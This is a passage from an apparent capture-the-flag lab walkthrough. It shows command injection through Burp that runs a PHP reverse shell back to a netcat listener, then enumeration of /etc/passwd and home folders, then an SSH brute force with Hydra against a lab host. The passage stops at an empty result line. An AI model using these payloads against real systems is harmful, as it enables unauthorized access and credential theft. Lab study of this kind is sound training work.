 ### Inject Reverse Shell

First, start a **netcat listener** on your attacker machine:

```
nc -lnvp 1234
```

Then inject payload via Burp:

```
ls+-a|php -r '$s=fsockopen("192.168.0.11",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**Note:** Injecti this reverse shell using burpsuite after 'ls+a' commands. We know using pipeline we can run multiple command at a same times, right?
📌 **Hint**: Here `192.168.0.11` is your attacker machine’s IP. Replace it with yours.
Find the ip use this command -

```
ifconfig
```

Now send the request, and you should receive a shell in your nc terminal.

---

## Step-6: User Enumeration

We now have a shell as a **low-privilege user**. Next step is to enumerate:

```
cat /etc/passwd
ls /home
```

**Result Example:**

```
Users: jim, charles, ...
```

Inside **jim’s folder** → you’ll find a `backup` directory containing an **old-passwords.txt** file. and
into home directory we found some username (we can see also into /etc/passwd if we have permission), right? copy those name and save with user.txt.

---

## Step-7: SSH Brute Force with Hydra

Use the username list (`users.txt`) and the old passwords list:

```
hydra -L users.txt -P old-passwords.txt ssh://192.168.0.104 -f -V
```

**Result:**
